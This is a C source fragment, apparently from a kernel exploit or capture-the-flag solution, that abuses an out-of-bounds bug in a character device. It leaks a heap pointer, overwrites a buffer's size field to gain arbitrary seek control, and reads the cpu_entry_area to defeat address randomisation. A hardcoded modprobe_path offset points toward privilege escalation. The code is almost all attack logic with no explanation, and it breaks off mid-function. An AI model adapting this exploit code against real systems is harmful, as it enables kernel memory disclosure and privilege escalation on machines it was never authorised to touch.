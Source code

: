 ```c
const size_t cpu_entry_area = 0xfffffe0000000004;
const size_t modprobe_path_offset = 0x1b3f100;

size_t leak_heap(int fd) {
    // set buf->pos to 511
    {
        {
            char buf[256] = { 0 };
            read(fd, buf, sizeof buf);
        }

        {
            char buf[255] = { 0 };
            read(fd, buf, sizeof buf);
        }
    }

    // now that we can read out of bounds, read the 
    // buffer structure
    {
        struct {
            char __padding;
            size_t size;
            size_t read;
            char* name;

        } __attribute__((packed)) buf;
        read(fd, &buf, sizeof buf);

        return (size_t)buf.name;
    }
}

size_t try_read_kernel(int fd, size_t current_buffer, int adjust_initial_pos) {
    if (adjust_initial_pos) {
        // set buffer->pos to 511
        for (int i = 0; i < 2; i += 1) {
            char buf[256] = { 0 };
            read(fd, buf, sizeof buf);
        }
    }

    // set size to a large value so we can freely control
    // buffer->pos
    {
        struct {
            char __padding;
            size_t size;
            size_t read : (64 - 8);
        } __attribute__((packed)) buf = {
            .size = 0xffffffffffffffff,
            .read = 0,
        };
        write(fd, &buf, sizeof buf);
    }

    // set buffer->pos such that we can read the cpu_entry_area
    {
        lseek(fd, cpu_entry_area - current_buffer - 8, SEEK_SET);
    }

    // read the leak
    {
```